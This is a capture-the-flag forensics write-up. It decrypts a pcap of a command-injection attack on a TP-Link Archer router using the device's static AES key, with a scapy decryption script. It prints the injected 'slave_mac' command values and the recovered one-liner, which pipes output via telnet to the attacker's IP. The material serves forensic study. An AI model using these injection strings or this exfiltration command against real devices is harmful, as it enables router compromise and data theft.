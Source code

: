 # AC1750
_Category: forensics_

## Description
> My router is weird, can you help me find the problem?
>
> ac1750-452ca8a9038502712d30c628d3444e5a22894611f1286b7a818203bdf838b434.tar.gz
>
> Author: Jeffxx
## Solution
We were given a pcap file of the traffic between a router (192.168.0.1) and an attacker (192.168.0.105). We can see towards the end of the pcap file that the router returned a directory listing to the attacker.

![dir_list](dir_list.png)

Searching about the challenge name we came across this article https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo that detailed a command injection vulnerability in this specific router (TP-Link Archer A7). The post also specified that the UDP packets are encrypted in AES-CBC with a static key and IV. Also, we also know from the blog post that it's only using half the key (128-bit), we have the following key and IV.

```
key: TPONEMESH_Kf!xn?
IV: 1234567890abcdef
```

Since we were only give the pcap file, this indicated that the flag must be in it. Therefore, we proceed to decrypting the UDP packets in the traffic dump. Despite the gibberish at the beginning, we can still see some valid strings. More specifically, we can see the attribute to `slave_mac` contained some commands, in this case `;echo >f;`.

![udp_decrypt](udp_decrypt.png)



If we decrypt another packet, we can see different commands executed in the same field.

![udp_decrypt2](udp_decrypt2.png)

Therefore, it is pretty clear now that we have to decrypt all the UDP packets. To do this, one of our team member suggested scapy. The script looks like

```python
from scapy.all import *
from Crypto.Cipher import AES

cipher = AES.new("TPONEMESH_Kf!xn?", AES.MODE_CBC, "1234567890abcdef")

packets = rdpcap('ac1750.pcapng')

# iterate through every packet
for p in packets:
    if UDP in p:
        try:
            # We skip the first 16 bytes to properly decrypt the packet
            c = raw(p.load)[16:]
            try:
                d = str(cipher.decrypt(c))
                tmp = d.split(',')[3]
                # print(tmp)
                if 'printf' in tmp:
                    print(tmp[27], end="")
            except:
                pass
        except:
            pass
```
If we only print `tmp`, we'll see something like

```sh
☁  ac1750  python3 test.py
 "slave_mac": "\';echo>f;\'"
 "slave_mac": "\';printf \'(\'>>f;\'"
 "slave_mac": "\';printf \'l\'>>f;\'"
 "slave_mac": "\';printf \'s\'>>f;\'"
 "slave_mac": "\';printf \' \'>>f;\'"
 "slave_mac": "\';printf \'-\'>>f;\'"
 "slave_mac": "\';printf \'l\'>>f;\'"
 "slave_mac": "\';printf \'&\'>>f;\'"
 "slave_mac": "\';printf \'&\'>>f;\'"
 "slave_mac": "\';printf \'e\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'o\'>>f;\'"
 "slave_mac": "\';printf \' \'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'i\'>>f;\'"
 "slave_mac": "\';printf \'t\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'o\'>>f;\'"
 "slave_mac": "\';printf \'n\'>>f;\'"
 "slave_mac": "\';printf \'{\'>>f;\'"
"error_msg":"Internal Error!"}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
 "slave_mac": "\';printf \'W\'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'y\'>>f;\'"
 "slave_mac": "\';printf \'_\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'a\'>>f;\'"
```
Finally, if we extract all the characters printed and combine them, we get the flag.

```sh
(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>fag&&ls -l)|telnet 192.168.0.105 4321%
```
